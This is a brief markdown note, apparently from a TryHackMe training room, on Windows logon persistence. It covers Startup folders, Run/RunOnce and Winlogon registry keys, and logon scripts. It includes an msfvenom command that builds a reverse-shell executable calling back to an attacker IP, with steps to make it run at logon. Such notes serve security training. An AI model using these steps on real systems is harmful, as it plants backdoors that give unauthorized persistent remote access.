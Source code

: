 # Windows Persistence - Logon Triggered

## Startup Folder

Each user has a:
- `C:\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\`
To force all users to run a payload user: 
- `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\`

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$attack_ip LPORT=$port -f exe -o revshell.exe
```
Transfer to target machine and copy to one of the above locations.

## Run / RunOnce
Instead of a directory you can modify the registery entries to specify application to run at logon:
-   `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
-   `HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce`
-   `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`
-   `HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce`

`Right-Click -> New -> Expandable String Value`
Name it, set type to `REG_EXPAND_SZ` and data as path to reverse shell.

## WinLogon

WinLogon loads user profiles after authenication, it uses registry keys under: 
- `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\` - change either of the below:
	- `Userinit` points to `userinit.exe`
	- `Shell` points to a system shell

## Logon Scripts

`userinit.exe` while loading a user profile checks the environment variable called `UserInitMprLogonScript`. It is `HKCU` defined and must configured for each user that you require to have backdoor to. 
- `HKCU\Environment` - Parent key to make the subkey under:
	- `UserInitMprLogonScript`; `REG_EXPAND_SZ`; `Path to backdoor`

## References

[THM Windows Persistence Room](https://tryhackme.com/room/windowslocalpersistence)